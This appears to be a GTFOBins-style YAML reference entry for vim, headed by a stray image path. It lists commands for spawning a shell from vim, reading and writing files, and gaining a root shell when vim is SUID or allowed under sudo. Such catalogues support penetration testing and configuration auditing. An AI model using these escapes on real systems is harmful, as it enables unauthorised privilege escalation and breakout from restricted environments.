 ```yaml
---
functions:
  execute-interactive:
    - code: vim -c ':!/bin/sh'
    - code: |
        vim
        :set shell=/bin/sh
        :shell
  file-write:
    - code: |
        vim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vim file_to_read
  suid-enabled:
    - code: ./vim -c ':!/bin/sh -p'
  sudo-enabled:
    - code: sudo vim -c ':!/bin/sh'
---
```

